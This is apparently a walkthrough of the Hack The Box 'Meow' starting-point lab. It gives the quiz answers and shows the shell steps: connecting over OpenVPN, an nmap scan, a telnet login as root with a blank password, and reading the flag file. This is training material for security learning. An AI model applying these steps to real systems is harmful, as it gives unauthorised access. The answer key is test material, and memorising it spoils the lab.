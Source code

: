 # Meow

> Connect using OpenVPN
> TCP 443 -> DOWNLOAD VPN -> starting_point_username.ovpn
> Linux bash: openvpn starting_point_username.ovpn
> get IP (10.11.11.11)

## TASK 1

> What does the acronym VM stand for?

- virtual machine

## TASK 2

> What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

- terminal

## TASK 3

> What service do we use to form our VPN connection into HTB labs?

- openvpn

## TASK 4

> What tool do we use to test our connection to the target with an ICMP echo request?

- ping

## TASK 5

> What is the name of the most common tool for finding open ports on a target?

- nmap

## TAKS 6

> What service do we identify on port 23/tcp during our scans?

- telnet

## TASK 7

> What username is able to log into the target over telnet with a blank password?

- root

## Submit Flag

```shell
$ openvpn starting_point_username.ovpn
```

Another Terminal

```shell
$ nmap -Pn 10.11.11.11
# 23/tcp telnet

$ telnet 10.11.11.11
Meow login: root

root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
[flag]
```
